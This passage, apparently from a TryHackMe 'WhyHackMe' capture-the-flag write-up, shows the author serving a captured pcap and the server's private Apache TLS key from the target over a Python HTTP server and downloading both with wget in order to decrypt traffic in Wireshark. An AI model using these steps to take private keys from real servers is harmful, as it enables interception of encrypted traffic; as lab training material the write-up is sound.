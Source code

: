 ```bash
</VirtualHost>

```

So we have encrypted traffic in our port and a key.
#### Decrypting TLS traffic

As you can see here, the certifcate is encrypted by a key: **/etc/apache2/certs/apache.key**. This key can be used by [WireShark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) to read the packages of port 41312. Now acquire the TLS key by running:

```bash
jack@ubuntu:/opt$ scp jack@10.10.100.207:/etc/apache2/certs/apache.key .
jack@10.10.100.207's password: 
./apache.key: Permission denied
```

I will host a web server with [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) and download pcap file from my machine :

```
jack@ubuntu:/opt$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) .
```

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/WhyHackMe]
└─$ wget http://whm.thm:1337/capture.pcap                                                                    
--2025-07-31 12:50:20--  http://whm.thm:1337/capture.pcap
Risoluzione di whm.thm (whm.thm)... 10.10.100.207
Connessione a whm.thm (whm.thm)|10.10.100.207|:1337... connesso.
Richiesta HTTP inviata, in attesa di risposta... 200 OK
Lunghezza: 27247 (27K) [application/vnd.tcpdump.pcap]
Salvataggio in: «capture.pcap»

capture.pcap                          100%[=========================================================================>]  26,61K  86,6KB/s    in 0,3s    

2025-07-31 12:50:21 (86,6 KB/s) - «capture.pcap» salvato [27247/27247]

```

Now the key in the right directory, another simple server :

```bash
jack@ubuntu:/etc/apache2/certs$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...       
```

And download : 

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/WhyHackMe]
└─$ wget http://whm.thm:1337/apache.key  
--2025-07-31 12:53:54--  http://whm.thm:1337/apache.key
Risoluzione di whm.thm (whm.thm)... 10.10.100.207
Connessione a whm.thm (whm.thm)|10.10.100.207|:1337... connesso.
Richiesta HTTP inviata, in attesa di risposta... 200 OK
Lunghezza: 3272 (3,2K) [application/pgp-keys]
Salvataggio in: «apache.key»

apache.key                            100%[=========================================================================>]   3,20K  --.-KB/s    in 0,001s  

2025-07-31 12:53:54 (2,92 MB/s) - «apache.key» salvato [3272/3272]
```
